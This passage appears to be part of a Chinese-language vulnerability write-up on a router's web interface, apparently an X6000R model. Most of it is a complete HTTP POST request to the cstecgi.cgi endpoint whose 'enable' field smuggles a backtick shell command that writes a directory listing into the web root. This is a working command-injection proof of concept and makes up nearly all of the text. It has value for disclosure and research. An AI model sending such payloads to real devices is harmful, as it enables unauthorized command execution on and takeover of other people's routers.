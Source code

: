 
看到有enable，直接盲测：😍

```
POST /cgi-bin/cstecgi.cgi?token=BB19D84941E95CCC HTTP/1.1
Host: ip:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 61
Origin: http://ip:8081
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://ip:8081/advance/urlf.html?token=BB19D84941E95CCC
Priority: u=1

{"enable":"`ls >/web/poc_urlf.txt`","addEffect":"0","topicurl":"setUrlFilterRules"}
```

![image-20241029093317928](./X6000R/images/image-20241029093317928.png)
